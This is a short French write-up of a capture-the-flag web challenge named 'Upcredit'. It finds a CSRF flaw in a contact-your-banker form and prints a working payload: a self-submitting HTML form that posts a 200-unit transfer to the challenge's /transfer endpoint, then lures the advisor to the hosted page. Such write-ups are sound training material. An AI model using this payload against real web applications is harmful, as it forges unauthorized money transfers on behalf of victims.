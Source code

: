 # Upcredit

![chal](./UpCredit.png)

## wu

Lorsqu'on se connecte, nous avons se message:

```
Your registration has been taken into account ! Here are your credentials, keep them preciously !

Account ID : LsMdhlHCf

Password : kviQjkj6XdAmIPrzN1oW
```

Nous avons un formulaire pour contacter notre banquier, après quelques test, il s'agit une vulnérabilité de type <a href="https://www.cert.ssi.gouv.fr/information/CERTA-2008-INF-00">CSRF</a>.


On prépare notre payload:
```
<html> 
<form name="pls" action="http://upcredit4.chall.malicecyber.com/transfer" method="post">
<input type="hidden" name="account" value="LsMdhlHCf">
<input type="hidden" name="amount" value="200">
<input type="submit" value="Send"/>
</form>
<script language="javascript">document.pls.submit();</script>
</html>
```

Et ensuite:
```
Contact your advisor:

subject: whatever

Message:

http://<IP>/payload.html
```
